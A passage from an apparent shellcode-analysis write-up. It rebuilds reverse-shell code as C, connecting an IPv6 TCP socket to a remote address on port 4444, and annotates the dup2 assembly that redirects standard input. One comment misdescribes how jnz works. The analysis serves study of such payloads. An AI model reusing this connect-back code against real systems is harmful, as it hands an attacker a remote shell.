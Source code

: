 The disassembly I analysed up until now can be converted into the following C code:

```cpp
// create an IPv6 socket
int fd = socket(AF_INET6, SOCK_STREAM, IPPROTO_TCP);

// allocate space for the struct containing IPv6 address and TCP port
struct sockaddr_in6 addr;

// set the socket to use IPv6
addr.sin6_family = AF_INET6;

// convert the TCP port number to big-endian (instead of little-endian)
addr.sin6_port = htons(4444);

// convert the string to an IPv6 address (big-endian)
inet_pton(AF_INET6, "fe80::250:56ff:fe22:364b", &(addr.sin6_addr));

// connect to fe80::250:56ff:fe22:364b:4444
connect(fd, (struct sockaddr *)&addr, sizeof(addr));
```

So, first it creates a `TCP socket` based on the `IPv6` protocol. After that, it connects the socket referred to by the file descriptor `fd` to the address identified by:

- IP address: `fe80::250:56ff:fe22:364b`
- TCP port: `4444`

Next, the function `dup2` is used for redirecting file descriptors.

```nasm
                            ; clear EBX, setting it to 0
00000046  31DB              xor ebx,ebx

                            ; compare EAX with EBX, if they are equal,
                            ;   the flag ZF will be set, as cmp
                            ;   simply subtracts the bytes
00000048  39D8              cmp eax,ebx

                            ; if the flag ZF is set, and the two registers are equal,
                            ;   then jumps to 00000082 (calls nanosleep())
0000004A  7536              jnz 0x82

                            ; 2nd argument of dup2():
                            ;   newfd: file descriptor to be redirected,
                            ;   in this case stdin
0000004C  31C9              xor ecx,ecx

                            ; clear ECX, EDX, EAX
0000004E  F7E1              mul ecx

                            ; 1st argument of dup2():
                            ;   oldfd, i.e. the destination of the redirection of
                            ;   the file descriptor specified in the arg. newfd (ECX)
00000050  89F3              mov ebx,esi

                            ; call syscall dup2()
00000052  B03F              mov al,0x3f
00000054  CD80              int 0x80
```
